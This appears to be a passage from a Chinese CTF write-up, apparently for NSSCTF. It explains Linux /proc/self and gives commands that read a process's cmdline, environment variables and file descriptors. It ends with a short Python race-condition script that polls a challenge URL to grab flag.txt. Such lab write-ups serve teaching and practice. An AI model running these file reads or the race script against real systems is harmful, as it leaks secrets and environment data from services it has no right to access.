 
__self__
上面这些操作列出的都是目标环境指定进程的信息，但是我们在做题的时候往往需要的当前进程的信息，这时候就用到了 /proc 目录中的 self 子目录。

`/proc/self` 表示当前进程目录。前面说了通过 `/proc/$pid/` 来获取指定进程的信息。如果某个进程想要获取当前进程的系统信息，就可以通过进程的pid来访问/proc/$pid/目录。但是这个方法还需要获取进程pid，在fork、daemon等情况下pid还可能发生变化。为了更方便的获取本进程的信息，linux提供了 /proc/self/ 目录，这个目录比较独特，不同的进程访问该目录时获得的信息是不同的，内容等价于 /proc/本进程pid/ 。进程可以通过访问 /proc/self/ 目录来获取自己的系统信息，而不用每次都获取pid。

有了self目录就方便多了，下面我们演示一下self的常见使用。

获取当前启动进程的完整命令：
```
cat /proc/self/cmdline
```

当不知道目标网站的Web路径或当前路径时，这经常使用

获得当前进程的可执行文件的完整路径：
```
ls -al /proc/self/exe
cat /proc/self/environ
cat /proc/self/fd/{id}

```
其他题目可能通过
1./proc/$pid/environ
2.内存 即Web+pwn

## 非预期
靶场环境是炸了出错后自动重启的。。。
这里利用 fs.read 是异步操作来竞争，在它删除前进行读取。。。如果炸了环境会重启，又会生成新的flag.txt.所以不断访问这个文件即可有机会读取到。


```python
from time import sleep

import requests

url = 'http://731-247ece60-9330-4d0d.nss.ctfer.vip:9080/getflag?c=2147483648&b=/app/src/flag.txt'

i = 0
while True:
    sleep(0.5)
    print(i)
    i += 1
    res = requests.get(url)
    if res.status_code == 200:
        print(res.text)
        exit(0)
```


# NSSCTF prize3 - 限速|多线程下载

# NSSCTF prize4 - ez flask
